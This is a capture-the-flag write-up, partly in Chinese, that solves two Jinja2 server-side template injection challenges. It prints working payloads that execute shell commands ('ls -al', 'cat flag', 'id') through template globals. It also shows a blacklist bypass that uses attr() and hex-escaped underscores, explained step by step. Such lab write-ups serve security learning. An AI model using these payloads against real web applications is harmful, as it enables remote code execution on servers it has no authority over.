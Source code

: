 ## SSTI1
![image](https://github.com/user-attachments/assets/80582f85-c78e-4581-a1b1-978f59d5d673)
![image](https://github.com/user-attachments/assets/119de55d-3919-4169-a731-c784e14b5a0e)


`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -al').read() }}`
![image](https://github.com/user-attachments/assets/7fa5996c-37dc-4787-9e04-f8ff16551076)
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}`
![image](https://github.com/user-attachments/assets/8bccdcd5-e1bb-429e-a875-af32b20c4bb5)

---

## SSTI2

![Screenshot_2025-05-21_00-50-47](https://github.com/user-attachments/assets/15e13182-7f12-4186-b131-0ddf72b10968)
![Screenshot_2025-05-21_00-51-13](https://github.com/user-attachments/assets/7922c3ba-d8f1-4fed-9fe0-c536d7eb2d94)

### 初步嘗試
我使用了典型的 Python Jinja2 RCE payload 嘗試取得系統資訊
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
伺服器回傳
![Screenshot_2025-05-21_00-56-51](https://github.com/user-attachments/assets/aced685a-8f45-4509-a72c-72fa44fd337d)

多次嘗試後發現
- 幾乎所有關鍵字或符號都被過濾：像是 `__`, `.`, `[`, `]`, `|` 等
- 常見的 Python 關鍵字如 `join`, `mro`, `base` 等也被攔截
表示伺服器存在黑名單機制
運用了 @SecGus 在 GitHub 上的技巧：
參考資料：[PayloadsAllTheThings - SSTI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)
關鍵概念是：
- 使用 `attr()` 函式來取代點記法；
- 用十六進位表示字串（例如 `__` → `\x5f\x5f`）來繞過字元過濾。
統整出
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
運作原理如下：

1. 透過 `request` 取得 `application` 對象；
2. 進入其 `__globals__`；
3. 從中找到 `__builtins__`，再透過 `__import__` 載入 `os` 模組；
4. 執行 `os.popen('id').read()`，執行系統命令並回傳輸出。

![Screenshot_2025-05-21_01-05-23](https://github.com/user-attachments/assets/49e44d53-f16d-4c45-8c46-bb7aeeb38524)

得到flag

